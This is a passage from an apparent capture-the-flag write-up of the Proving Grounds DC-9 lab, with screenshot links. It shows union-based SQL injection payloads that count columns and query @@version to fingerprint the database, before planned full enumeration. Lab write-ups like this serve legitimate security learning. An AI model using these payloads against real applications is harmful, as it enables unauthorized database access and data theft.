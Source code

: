 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a8.png)

**Full SQL Query:**
```sql
' UNION ALL SELECT 1,2,3,4,5,6-- -
```

Looks like it **suffers Union-based SQL Injection**!

Let's **enumerate the entire DBMS(Database Management System)** via SQL Injection!

**First, let's find out which DBMS is running on the target machine!** 
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,@@version-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a9.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a10.png)

